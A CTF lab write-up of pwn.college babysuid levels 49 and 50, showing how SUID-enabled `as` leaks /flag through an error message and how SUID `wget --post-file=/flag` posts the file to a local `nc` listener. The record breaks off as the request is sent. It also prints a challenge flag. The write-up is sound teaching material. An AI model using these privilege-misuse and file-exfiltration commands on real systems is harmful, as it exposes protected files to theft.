 ```
hacker@program-misuse~level49:/$ /challenge/babysuid_level49 
Welcome to /challenge/babysuid_level49!

This challenge is part of a series of programs that
just straight up weren't designed to let you read files.

I just set the SUID bit on /usr/bin/as.
Try to use it to read the flag!

IMPORTANT: make sure to run me (/challenge/babysuid_level49) every time that you restart
this challenge container to make sure that I set the SUID bit on /usr/bin/as!
```

The `as` utility is an assembler for programming languages.

```
hacker@program-misuse~level49:/$ as /flag 
/flag: Assembler messages:
/flag:1: Error: no such instruction: `pwn.college{0VD3s7ehT8Yllr4jwhBNM4dN-v1.0VM5EDL4ITM0EzW}'
```

&nbsp;

## level 50

```
hacker@program-misuse~level50:/$ /challenge/babysuid_level50 
Welcome to /challenge/babysuid_level50!

This challenge is part of a series of programs that
just straight up weren't designed to let you read files.

I just set the SUID bit on /usr/bin/wget.
Try to use it to read the flag!

IMPORTANT: make sure to run me (/challenge/babysuid_level50) every time that you restart
this challenge container to make sure that I set the SUID bit on /usr/bin/wget!
```

Let us set up a `nc` listener. 

```
hacker@program-misuse~level50:/$ nc -nlvp 80
Listening on 0.0.0.0 80
```

```
hacker@program-misuse~level50:/$ wget --post-file=/flag http://localhost
--2024-05-21 16:00:46--  http://localhost/
Resolving localhost (localhost)... ::1, 127.0.0.1
Connecting to localhost (localhost)|::1|:80... failed: Connection refused.
Connecting to localhost (localhost)|127.0.0.1|:80... connected.
HTTP request sent, awaiting response... 
```

